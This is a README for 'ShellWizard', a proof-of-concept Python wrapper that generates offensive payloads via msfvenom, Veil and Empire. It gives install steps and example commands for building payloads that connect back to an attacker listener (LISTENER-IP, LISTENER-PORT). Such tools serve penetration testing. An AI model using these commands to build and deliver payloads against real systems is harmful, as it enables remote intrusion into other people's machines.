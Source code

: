 
<h1 align="center">
  <br>
ShellWizard
  <br>
</h1>

<h4 align="center">Python wrapper for the payload creation.</h4>
<h6 align="center">This tool is still in development and has plans to include significantly more funcionality. Is currently just a PoC.</h4>
<h6 align="center">Some of the future functionality includes better staging and delivery.</h4>

<p align="center">
  <a href="#install">Install</a> •
  <a href="#examples">Examples</a> •
  <a href="#related">Related</a> •
  <a href="#license">License</a>
</p>

## Install
```python
git clone https://github.com/byinarie/ShellWizard.git
pip3 install -r requirements.txt 
```

## Examples
* Help
```bash
python3 ShellWizard.py --help
python3 ShellWizard.py venom --help
python3 ShellWizard.py empire --help
python3 ShellWizard.py veil --help
```

* Generate a veil payload
```python
python3 ShellWizard.py veil -lhost LISTENER-IP -lport -LISTENER-PORT -veil-options ADDTIONAL-OPTIONS
```
* Generate a venom payload
```python
python3 ShellWizard.py venom -lhost LISTENER-IP -lport -LISTENER-PORT -msf-options ADDTIONAL-OPTIONS
```

* Generate an Empire Payload (needs updated to include lhost)
```python
python3 ShellWizard.py veil --empire-host EMPIRE-API --empire-user USER --empire-pass PASSWORD --empire-options ADDTIONAL-ARGUMENTS```
```

## Related
* todo

## License

Creative Commons Zero v1.0 Universal

---

